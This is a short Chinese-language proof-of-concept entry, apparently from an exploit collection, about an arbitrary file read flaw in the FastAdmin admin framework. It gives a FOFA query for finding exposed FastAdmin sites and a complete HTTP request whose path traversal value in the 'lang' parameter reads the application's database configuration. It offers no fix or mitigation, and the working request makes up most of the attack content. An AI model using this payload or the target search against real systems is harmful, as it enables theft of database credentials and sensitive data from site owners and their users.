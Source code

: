 # FastAdmin框架存在任意文件读取漏洞

### 1.漏洞描述

FastAdmin是一个基于ThinkPHP和Bootstrap的快速开发的后台管理系统框架。FastAdmin框架存在文件读取漏洞漏洞，攻击者利用此漏洞可以获取系统敏感信息。

### 2.fofa语法

```plain
app="FastAdmin"
```

### 3.漏洞复现

```plain
GET /index/ajax/lang?lang=../../application/database HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive


```

![image](https://github.com/hardog123/poc-exp/assets/170905460/66994621-3e8c-49f0-bf7c-0b34ce486419)
